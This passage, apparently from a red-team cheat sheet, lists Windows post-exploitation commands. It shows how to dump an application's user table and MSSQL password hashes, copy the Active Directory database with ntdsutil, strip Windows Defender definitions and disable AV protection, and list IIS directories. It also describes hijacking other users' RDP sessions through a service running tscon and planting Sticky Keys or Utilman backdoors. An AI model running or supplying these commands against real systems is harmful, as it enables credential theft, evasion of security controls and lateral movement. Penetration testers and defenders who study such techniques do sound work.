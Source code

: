 Retrieve table contents
```
    sqlcmd -E -S localhost -d DatabaseName -Q "SELECT * FROM SystemUserBase;" -W -w 999 -s"," -o "c:\windows\temp\RecruiterProd_MSCRM_userbase.csv"
```

Dump MSSQL Password Hashes
``` 
    sqlcmd -E -S localhost -Q "SELECT name, password_hash FROM master.sys.sql_logins;"
```

#### NTDSUTIL
Built-in utility to create backup copy of the AD database
``` 
    ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

#### Applocker
List Applocker's effective policy on the system
```
    Get-ApplockerPolicy -Effective
```

#### Windows Defender

Remove definitions and disable AV protection (Useful when Powershell scripts are being blocked by Defender)
```
    c:\program files\windows defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true
```

#### APPCMD

Get virtual directories in IIS
```
    c:\windows\system32\inetsrv\appcmd.exe list vdir /text:physicalpath
```

### Windows Lateral Movement

RDP Hijacking

If you have SYSTEM context on a host, you can assume the RDP sessions of other users without credentials using the tscon.exe command.

Gain access to cmd.exe to issue the tscon.exe command over RDP by creating a backdoor with Stickkeys or Utilman. Use scheduled tasks (as SYSTEM) or create a service to execute the desired command.

[RDP hijacking — how to hijack RDS and RemoteApp sessions transparently to move through an organisation](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6)
```
    # View RDP sessions on system your RDP'd to with administrative permissions
    # Locally
    quser

    # Remote
    quser /server:<servername>

    # Create a service that will swap your SESSIONNAME with the desired disconnected session 
    sc create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#XX" error= "ignore"

    # Start service
    net start sesshijack
    or
    sc start sesshijack
```
